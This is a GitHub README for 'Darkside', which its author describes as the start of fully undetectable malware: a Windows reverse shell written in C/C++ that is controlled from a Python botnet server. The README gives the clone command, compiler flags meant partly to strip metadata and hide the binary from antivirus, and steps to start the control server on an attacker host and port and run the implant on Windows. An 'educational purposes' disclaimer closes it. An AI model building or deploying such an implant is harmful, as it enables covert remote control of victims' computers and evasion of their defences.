 # Darkside

For now it's small piece of software at mine beginning of writing FUD (full-undetectable) malware - limited reverse shell for Windows written in C/C++ and Python control panel.

## Getting Started

Download source from github


```
git clone https://github.com/Djkusik/Darkside.git
```

To compile it, I used few flags for smaller size of final binary, faster processing time, stripping metadata or hiding binary from antiviruses:

```
i686-w64-mingw32-g++ -Os -std=c++11 darkside.cpp -o darkside.exe -s -lws2_32 -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

### Prerequisites

We will need cross compiler (if we're using Linux) - for these who use one based on Debian:

```
apt-get install mingw-w64-common mingw-w64-i686-dev mingw-w64-tools mingw-w64-x86-64-dev i686-w64-mingw32-g++
```

Helpful would be virtual machine with Windows for testing.

## Usage

First we need to open our server which will be used for controlling bots:

```
python3 botnet_server.py <LHOST> <LPORT>
```

Then run executable at Windows (for now it isn't run on startup). We can do it from cmd when being in the same folder:

```
.\darkside.exe
```

### Disclaimer

This software has been made for educational purposes and could be used for CyberSecurity Red Teams. I don't promote malicious practices and will not be responsible for any illegal activities. Use it at your own risk.
